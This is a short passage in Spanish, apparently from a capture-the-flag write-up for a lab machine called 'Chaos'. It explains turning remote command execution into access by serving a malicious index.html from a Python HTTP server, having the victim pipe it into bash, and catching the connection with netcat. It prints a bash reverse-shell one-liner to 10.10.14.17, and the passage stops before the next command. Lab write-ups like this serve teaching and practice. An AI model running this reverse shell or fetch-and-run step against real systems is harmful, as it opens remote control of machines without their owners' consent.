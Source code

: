 ![](/imagenes/Chaos/chaos18.png)

Observamos que tenemos ejecución remota de comandos, vamos entonces a ganar acceso al sistema.

Esto lo realizaremos como siempre, compartiendo un index.html malicioso por un servidor http con python, haremos que la máquina víctima intente acceder a ese recurso y lo pipee con bash, mientras escuchamos conexión por netcat:


index.html:
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.17/1234 0>&1
```

Vamos a mandar el comando:

